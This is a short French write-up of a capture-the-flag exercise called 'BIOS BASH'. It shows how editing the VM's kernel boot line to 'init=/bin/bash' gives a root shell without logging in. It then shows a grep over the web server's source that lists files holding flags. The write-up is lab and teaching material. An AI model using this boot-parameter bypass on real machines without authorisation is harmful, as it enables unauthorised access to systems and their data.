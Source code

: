 # BIOS BASH

Au démarage de la VM lorsqu'on appui sur TAB cette ligne apparait:
```
> /casper/vmlinuz file=/cdrom/preseed/custom.seed boot=casper initrd=/casper/initrd.gz quiet splash --
```
On peut remplacer le "splash --" par "init=/bin/bash" pour lancer un shell. \
A partir de ce shell on a accès a tous le code source du serveur dans /var/www/html. \
On lance un petit grep pour repérer les fichiers intéressants.
```
> grep -sr "flag is" /var/www/html

/var/www/html/admin/index.php:
 ...
/var/www/html/includes/feedback.inc.php:
 ...
/var/www/html/includes/header.inc.php:
 ...
/var/www/html/includes/media.inc.php:
 ...
/var/www/html/includes/recover.inc.php:
 ...
/var/www/html/includes/signin.inc.php:
 ...
/var/www/html/includes/survey.inc.php:
 ...
/var/www/html/includes/upload.inc.php:
 ...
```
Tous les fichiers listés contiennent un flag.
